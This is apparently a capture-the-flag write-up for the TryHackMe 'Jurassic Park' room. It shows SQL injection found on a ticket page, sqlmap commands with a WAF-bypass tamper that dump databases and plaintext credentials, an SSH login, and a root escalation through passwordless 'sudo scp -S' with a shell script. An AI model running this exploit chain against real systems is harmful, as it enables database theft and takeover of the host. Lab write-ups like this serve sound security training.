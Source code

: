 # Jurassic Park Challenge

**Room URL**: https://tryhackme.com/room/jurassicpark

---

# Objective:

Enumerate the web application, obtain credentials to the server, and find four flags hidden in the file system.

## Enumeration:

**Port Scanning**

```bash
sudo nmap -sS -F -n 10.10.165.112
Nmap scan report for 10.10.165.112
Host is up (0.14s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.22 seconds
```

visited the website on port 80, while I was viewing the tickets, I modified the URL to the `id=5` parameter, which revealed a ticket priced 0.

![image](https://github.com/user-attachments/assets/bee5e0b8-a332-4615-a07a-1481282dc139)

To test if the website is vulnerable to SQL injection, add a single quote next to the id `id=5'`, which will break the database query.

![image](https://github.com/user-attachments/assets/44f1db2f-d16e-47c0-b3ea-338377e60b3c)

we have confiremed that the website is vulnerable to **SQLi**, I used [SQLmap](https://sqlmap.org/) tool to automate the process of detection and exploiting **SQLi vulnerability**.

Before starting the attack, inject a malformed query and check the error message to identify the database.

![image](https://github.com/user-attachments/assets/4aac1e8f-0337-4906-b128-c24930055aa2)

This confirms that the back-end database is **MySQL**. Now let's start SQLi attack. I added this option `--tamper=space2comment.py` to bypass common WAF filters

```bash
sqlmap -u "http://10.10.165.112/item.php?id=5" --dbs --random-agent  --tamper=space2comment.py
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.9.4#stable}
|_ -| . [,]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

...
...
sqlmap identified the following injection point(s) with a total of 261 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=5 AND 6078=6078

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=5 AND GTID_SUBSET(CONCAT(0x7162767a71,(SELECT (ELT(3314=3314,1))),0x717a626271),3314)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=5 AND (SELECT 3423 FROM (SELECT(SLEEP(5)))jsGZ)
---
[10:30:24] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[10:30:24] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.10 or 16.04 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.6
[10:30:25] [INFO] fetching database names
[10:30:26] [INFO] retrieved: 'information_schema'
[10:30:26] [INFO] retrieved: 'mysql'
[10:30:26] [INFO] retrieved: 'park'
[10:30:26] [INFO] retrieved: 'performance_schema'
[10:30:26] [INFO] retrieved: 'sys'
available databases [5]:
[*] information_schema
[*] mysql
[*] park
[*] performance_schema
[*] sys

[10:30:26] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.165.112'

```

**Findings:**
- Databases: information_schema, mysql, park, performance_schema, sys.
- Target database: park.

## Database Enumeration

Extract tables from **park**

```bash
sqlmap -u "http://10.10.165.112/item.php?id=5" --dbms=mysql -D park --tables --random-agent  --tamper=space2comment.py
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.9.4#stable}
|_ -| . [.]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org


---
[10:53:45] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[10:53:45] [INFO] testing MySQL
[10:53:45] [INFO] confirming MySQL
[10:53:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 or 16.10 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.0
[10:53:46] [INFO] fetching tables for database: 'park'
[10:53:46] [INFO] retrieved: 'items'
[10:53:46] [INFO] retrieved: 'users'
Database: park
[2 tables]
+-------+
| items |
| users |
+-------+

[10:53:46] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.165.112'
```
**Findings:**
- Tables:  items, users

## Credential Dumping

```bash
sqlmap -u "http://10.10.165.112/item.php?id=5" --dbms=mysql -D park -T items,users --dump --random-agent  --tamper=space2comment.py
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.9.4#stable}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org
              
---

Database: park
Table: items
[5 entries]

| id  | sold | price  | package     | information                                                                                                                                                                            |
+-----+------+--------+-------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1   | 4    | 500000 | Gold        | Childen under 5 can attend free of charge and will be eaten for free. This package includes a dinosaur lunch, tour around the park AND a FREE dinosaur egg from a dino of your choice! |
| 2   | 11   | 250000 | Bronse      | Children under 5 can attend free of charge and eat free. This package includes a tour around the park and a dinosaur lunch! Try different dino's and rate the best tasting one!        |
| 3   | 27   | 100000 | Basic       | Children under 5 can attend for free and eat free. This package will include a basic tour around the park in the brand new automated cars!                                             |
| 5   | 0    | 0      | Development | Dennis, why have you blocked these characters: ' # DROP - username @ ---- Is this our WAF now?                                                                                         |
| 100 | -1   | -1     | ...         | Nope                                                                                                                                                                                   |
---

Database: park
Table: users
[2 entries]
+----+-----------+----------+
| id | password  | username |
+----+-----------+----------+
| 1  | D0nt3ATM3 |          |
| 2  | ih8dinos  |          |
+----+-----------+----------+

```

Used credentials (`dennis:ih8dinos`) to access the machine:

## Initial Access

```bash
ssh dennis@10.10.165.112     
The authenticity of host '10.10.165.112 (10.10.165.112)' can't be established.
ED25519 key fingerprint is SHA256:RgFyYsoL/n7m7p/t714RGHLqLtFNcn/+9tndcXsYijA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
dennis@10.10.165.112's password: 

dennis@ip-10-10-165-112:~$ whoami
dennis
```

The user doesn't have root access. To gain privileged access, the first thing you do is to check what privileged commands your current user is allowed to run with `sudo` without requiring a password.

```bash
dennis@ip-10-10-165-112:~$ ls -al
total 52
drwxr-xr-x 4 dennis dennis 4096 Jul  5 15:27 .
drwxr-xr-x 4 root   root   4096 Feb 16  2019 ..
-rw------- 1 dennis dennis 1001 Feb 16  2019 .bash_history
-rw-r--r-- 1 dennis dennis  220 Feb 16  2019 .bash_logout
-rw-r--r-- 1 dennis dennis 3771 Feb 16  2019 .bashrc
drwx------ 2 dennis dennis 4096 Jul  5 15:06 .cache
-rw-rw-r-- 1 dennis dennis   93 Feb 16  2019 flag1.txt
drwxrwxr-x 2 dennis dennis 4096 Jul  5 15:15 .nano
-rw-r--r-- 1 dennis dennis  655 Feb 16  2019 .profile
-rw-rw-r-- 1 dennis dennis   32 Feb 16  2019 test.sh
-rw-r--r-- 1 dennis dennis 4096 Jul  5 15:21 .test.txt.swp
-rw------- 1 dennis dennis 4631 Jul  5 15:27 .viminfo
dennis@ip-10-10-165-112:~$ 
dennis@ip-10-10-165-112:~$ sudo -l
Matching Defaults entries for dennis on ip-10-10-165-112.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dennis may run the following commands on ip-10-10-165-112.eu-west-1.compute.internal:
    (ALL) NOPASSWD: /usr/bin/scp
```

## Privilege Escalation

Followed [GTFOBins](https://gtfobins.github.io/gtfobins/scp/) to abuse `scp`.

1. Created a temporary file with a reverse shell payload

```bash
TF=$(mktemp)                      
echo 'sh 0<&2 1>&2' > $TF      
chmod +x "$TF"                    
```
2. Executed scp with the malicious payload
```bash
sudo scp -S $TF x y:                   
```
`-S $TF` tells `scp` to use `$TF` (our script) instead of the default SSH for the connection. Since scp runs as root (via `sudo`), our payload executes with root privileges.

![image](https://github.com/user-attachments/assets/31b117cf-7d60-42e2-a42a-58296d63ef36)


